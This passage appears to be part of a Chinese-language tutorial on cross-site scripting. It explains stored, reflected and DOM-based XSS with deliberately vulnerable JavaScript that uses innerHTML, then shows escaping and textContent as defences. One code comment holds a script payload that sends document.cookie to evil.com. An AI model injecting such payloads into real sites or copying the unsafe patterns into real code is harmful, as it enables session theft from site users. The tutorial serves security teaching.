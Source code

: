 1. **存储型XSS**：恶意代码被存储在服务器中（如数据库），当用户请求包含此恶意代码的页面时触发攻击
2. **反射型XSS**：恶意代码包含在URL中，当服务器将输入反射到响应中时触发攻击
3. **DOM型XSS**：攻击发生在客户端，恶意代码通过修改页面DOM结构触发攻击

```javascript
/**
 * @description XSS攻击示例
 */

// 存储型XSS示例
// 用户输入评论：<script>fetch('https://evil.com/steal?cookie='+document.cookie)</script>
function unsafeCommentDisplay(comment) {
  // 不安全的实现：直接将用户输入插入到DOM中
  document.querySelector('#comments').innerHTML += comment;
  // 如果comment中包含恶意脚本，会被执行
}

// 反射型XSS示例
// 如URL: https://example.com/search?q=<script>alert('XSS')</script>
function unsafeSearchDisplay() {
  const urlParams = new URLSearchParams(window.location.search);
  const searchTerm = urlParams.get('q');

  // 不安全的实现：直接将URL参数插入到DOM中
  document.querySelector('#searchResults').innerHTML =
    `搜索结果: ${searchTerm}`;
}

// DOM型XSS示例
function domBasedXSS() {
  // 假设window.location.hash为 #<img src=x onerror=alert('XSS')>
  const hash = window.location.hash.substring(1);

  // 不安全的实现：使用innerHTML直接将hash值插入DOM
  document.querySelector('#hashContent').innerHTML = hash;
}
```

### XSS防御措施

```javascript
/**
 * @description XSS防御措施示例
 */

// 1. 输入验证和转义
function escapeHTML(unsafeText) {
  return unsafeText
    .replace(/&/g, "&amp;")
    .replace(/</g, "&lt;")
    .replace(/>/g, "&gt;")
    .replace(/"/g, "&quot;")
    .replace(/'/g, "&#039;");
}

// 安全的评论展示
function safeCommentDisplay(comment) {
  // 对用户输入进行转义
  const safeComment = escapeHTML(comment);

  // 使用textContent而不是innerHTML
  const commentEl = document.createElement('div');
  commentEl.textContent = safeComment;
  document.querySelector('#comments').appendChild(commentEl);
}
```